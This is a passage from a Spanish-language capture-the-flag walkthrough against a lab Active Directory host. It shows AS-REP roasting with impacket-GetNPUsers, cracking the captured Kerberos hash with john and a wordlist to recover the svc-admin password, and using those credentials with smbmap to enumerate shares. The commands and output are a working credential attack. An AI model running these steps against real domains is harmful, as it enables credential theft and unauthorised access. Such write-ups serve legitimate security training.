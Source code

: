 Vamos a ver si podemos obtener algun hash de algun usuario usando un `asrproast attack` 

<https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast>

El usuario `svc-admin` nos da un hash vamos a crackearlo

```bash
❯ impacket-GetNPUsers -no-pass -usersfile users.txt spookysec.local/
Impacket v0.10.1.dev1+20230207.122134.c812d6c7 - Copyright 2022 Fortra

$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:acfcce60f5ae4881863e6efb62a3729e$37b3323cb36a9e16fc3a82ed1cd3c7655e2477984c156a615fa1bf12fbd93d9fcf1ef1c7e703a59e22b0b1cff66bd6a177dd101c912f6ca9dded09062561cc367ee3472cc13b90336b0eefceae17f72028d2a4b04da1dfa698c41dd5bede2d901f5a2c7b131be02a98dc79ec392925a9a4117d4c2aefb55e705ad2a65acb449f57177308960b8a19bc84ba72cba5b7ad57029f46705169bfb36397c699cccc2256dd6bbca82ff8a09a5008672362ab2fbf0c5eda0ec3977e5085e52f5f09a118765e00ef34e29947767c1481ed0084d7a31e7c116ea011470087a41ec986c858e418e68f8c3a6eccdbddb67d30772191f1f1
[-] User james doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User robin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User darkstar doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User backup doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User paradox doesn't have UF_DONT_REQUIRE_PREAUTH set
```

```bash
❯ john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 512/512 AVX512BW 16x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
management2005   ($krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL)
1g 0:00:00:11 DONE (2023-03-10 13:38) 0.08539g/s 498533p/s 498533c/s 498533C/s manaia05..man3333
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

`svc-admin:management2005`

Como tenemos credenciales podemos usarlas para ver recursos compartidos

```bash
❯ smbmap -H 10.10.220.144 -u svc-admin -p management2005
[+] IP: 10.10.220.144:445	Name: spookysec.local                                   
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	backup                                            	READ ONLY	
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share 
	SYSVOL                                            	READ ONLY	Logon server share 
```

Otra forma de hacerlo es con `crackmapexec`
